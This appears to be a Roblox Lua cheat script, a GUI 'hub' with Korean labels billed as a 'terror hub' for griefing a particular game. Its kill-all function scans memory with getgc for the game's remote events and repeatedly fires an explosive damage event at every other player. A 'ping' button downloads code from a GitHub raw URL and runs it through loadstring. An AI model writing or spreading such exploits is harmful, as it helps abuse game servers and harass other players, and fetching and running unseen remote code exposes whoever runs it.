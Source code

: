 local Players = game:GetService("Players")
local player = Players.LocalPlayer
local playerGui = player:WaitForChild("PlayerGui")

-- ScreenGui 생성
local gui = Instance.new("ScreenGui")
gui.Name = "콘솔X 망겜테러 허브"
gui.ResetOnSpawn = false
gui.Parent = playerGui

-- MainFrame (허브 UI 전체)
local mainFrame = Instance.new("Frame")
mainFrame.Size = UDim2.new(0, 300, 0, 200)  -- 크기 조정
mainFrame.Position = UDim2.new(0.5, -150, 0.4, -100)  -- 위치 조정
mainFrame.BackgroundColor3 = Color3.fromRGB(40, 40, 40)
mainFrame.BorderSizePixel = 0
mainFrame.Parent = gui

-- TitleBar (드래그 가능 영역)
local titleBar = Instance.new("Frame")
titleBar.Size = UDim2.new(1, 0, 0, 30)
titleBar.BackgroundColor3 = Color3.fromRGB(25, 25, 25)
titleBar.BorderSizePixel = 0
titleBar.Parent = mainFrame

-- UI 내용 (텍스트)
local textLabel = Instance.new("TextLabel")
textLabel.Size = UDim2.new(1, 0, 1, -30)
textLabel.Position = UDim2.new(0, 0, 0, 30)
textLabel.Text = "콘솔X 사이다부대&골프부대 테러 허브"  -- 설명 텍스트 변경
textLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
textLabel.TextSize = 18
textLabel.BackgroundTransparency = 1
textLabel.Parent = mainFrame

-- 버튼 생성 함수
local function createButton(text, position, callback)
local button = Instance.new("TextButton")
button.Size = UDim2.new(0.4, 0, 0, 40)
button.Position = position
button.Text = text
button.TextColor3 = Color3.fromRGB(255, 255, 255)
button.TextSize = 16
button.BackgroundColor3 = Color3.fromRGB(255, 0, 0)
button.Parent = mainFrame

local buttonCorner = Instance.new("UICorner")
buttonCorner.CornerRadius = UDim.new(0, 10)
buttonCorner.Parent = button

button.MouseButton1Click:Connect(callback)

return button

end

-- 킬올 버튼 상태 추적
local isKilling = false

-- 킬올 실행 함수
local function killAll()
if isKilling then
return  -- 이미 실행 중이면 함수 종료
end

isKilling = true  -- 올킬 시작
local CE_Events
local ReplicatedStorage = game:GetService("ReplicatedStorage")
for i, v in next, getgc(true) do
if type(v) == 'table' and rawget(v, 'damageEvent') and rawget(v, 'equipEvent') then
CE_Events = v
end
end

if CE_Events then
while isKilling do  -- isKilling이 true일 동안 무한 실행
for _, plr in pairs(Players:GetPlayers()) do
if plr ~= player then
CE_Events["explosiveEvent"]:FireServer(nil, plr.Character:GetPivot().Position, 50000, 1213320, 1321330, nil, nil, nil, nil, nil, nil, nil, "Auth")
end
end
wait(0.1)  -- 잠시 대기 후 반복
end
end

end

-- 버튼들
local ciderPingButton = createButton("핑", UDim2.new(0.05, 0, 0.2, 0), function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Dain29292929/Ce1/refs/heads/main/Ce1"))()
end)

local bottomRightButton = createButton("ce연속킬올", UDim2.new(0.55, 0, 0.6, 0), function()
if isKilling then
isKilling = false  -- 이미 실행 중이면 멈추기
else
killAll()  -- 실행되지 않으면 실행
end
end)

-- 허브 보이기/숨기기 버튼
local settingsButton = Instance.new("TextButton")
settingsButton.Size = UDim2.new(0, 50, 0, 50)
settingsButton.Position = UDim2.new(0, 10, 0.5, -25)
settingsButton.Text = "⚙️"
settingsButton.TextColor3 = Color3.fromRGB(255, 255, 255)
settingsButton.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
settingsButton.Parent = gui

mainFrame.Visible = false
settingsButton.MouseButton1Click:Connect(function()
mainFrame.Visible = not mainFrame.Visible
end)

-- 🛠️ 드래그 기능
local UserInputService = game:GetService("UserInputService")
local dragging, dragInput, dragStart, startPos

titleBar.InputBegan:Connect(function(input)
if input.UserInputType == Enum.UserInputType.MouseButton1 or input.UserInputType == Enum.UserInputType.Touch then
dragging = true
dragStart = input.Position
startPos = mainFrame.Position

input.Changed:Connect(function()
if input.UserInputState == Enum.UserInputState.End then
dragging = false
end
end)
end

end)

titleBar.InputChanged:Connect(function(input)
if input.UserInputType == Enum.UserInputType.MouseMovement or input.UserInputType == Enum.UserInputType.Touch then
dragInput = input
end
end)

UserInputService.InputChanged:Connect(function(input)
if dragging and input == dragInput then
local delta = input.Position - dragStart
local newX = startPos.X.Offset + delta.X
local newY = startPos.Y.Offset + delta.Y

mainFrame.Position = UDim2.new(startPos.X.Scale, newX, startPos.Y.Scale, newY)
end
end)
